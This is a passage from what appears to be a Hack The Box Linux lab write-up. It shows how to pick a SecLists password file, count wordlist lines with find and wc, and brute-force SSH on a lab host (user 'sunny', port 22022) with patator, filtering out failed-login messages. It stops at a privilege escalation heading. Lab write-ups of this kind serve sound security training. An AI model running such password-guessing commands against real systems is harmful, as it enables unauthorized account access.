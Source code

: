 password file for enumeration = /usr/share/SecLists/Passwords


![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/16.jpg)

> rock you take lot of time so take small files

- list all the files in the folder

```sh
find . -type f
find . -type f -exec wc -l {} \;
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/17.jpg)

wc -l = for word count line
{} = take every entry from file and put it there
\; = escape a semi colone to run this

- take every file entry and count lines

- find numbers and reverse

```sh
find . -type f -exec wc -l {} \; | sort -nr
```

-nr = number reverse

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/18.jpg)

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/19.jpg)

- this is fine

persistent =0 ; it will slow it down;in this way less false positive

```sh
patator ssh_login host=10.10.10.76 port=22022 user=sunny password=FILE0 0=/usr/share/SecLists/Passwords/probable-v2-top1575.txt persistent=0
```

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/20.jpg)

```sh 
patator ssh_login host=10.10.10.76 port=22022 user=sunny  password=FILE0 0=/usr/share/SecLists/Passwords/probable-v2-top1575.txt persistent=0 -x  ignore:mesg='Authentication failed.'
```

- hide things from authentication failed

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/21.jpg)

- fgrep = grep for ' password failed ' .

### privilege escalation

![dockerengine]({{ site.baseurl }}/post_img/writeups/htb/linux/11/22.jpg)
